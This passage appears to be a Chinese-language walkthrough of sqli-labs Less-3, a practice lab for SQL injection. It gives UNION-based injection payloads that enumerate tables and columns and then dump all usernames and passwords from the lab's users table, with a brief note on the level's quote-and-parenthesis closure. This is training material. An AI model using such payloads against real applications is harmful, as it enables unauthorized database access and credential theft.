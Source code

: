 查询security数据库名中的表：`?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479`

![image-20211013202913435](./typora-user-images/image-20211013202913435.png)

查询users表中的字段：`?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273`

![image-20211013203120764](./typora-user-images/image-20211013203120764.png)

查询所有的用户名和密码：`?id=-1') union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users`

![image-20211013203251354](./typora-user-images/image-20211013203251354.png)

#### 讲解

Less3与前两个题属于相同类型，只是源码的id闭合方式不同。









### sqli-labs源码中的函数
